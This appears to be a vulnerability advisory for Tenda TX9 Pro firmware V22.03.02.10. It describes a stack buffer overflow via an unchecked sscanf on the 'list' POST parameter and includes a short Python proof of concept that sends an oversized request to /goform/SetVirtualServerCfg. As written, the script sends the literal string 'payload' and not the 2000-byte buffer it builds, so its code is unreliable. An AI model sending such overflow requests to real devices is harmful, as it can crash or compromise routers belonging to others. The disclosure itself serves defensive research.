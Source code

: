 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-4219.html

## Affected version

TX9 Pro Firmware  V22.03.02.10

## Vulnerability details

The Tenda TX9 Pro Firmware  V22.03.02.10 firmware has a stack overflow vulnerability in the `sub_42CB94` function. The `v3` variable receives the `list` parameter from a POST request. However, since the user can control the input of `list`, the statement `if ( sscanf(v3, "%[^,],%[^,],%[^,],%s", v12, v11, v10, v9) == 4 )` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `v9~v12` array, triggering this security vulnerability.

![image-20240416113633159](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416113633159.png)

![image-20240416113621650](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416113621650.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetVirtualServerCfg"
payload = b"a"*2000

data = {
        'list':'payload',
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416113543395](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416113543395.png)
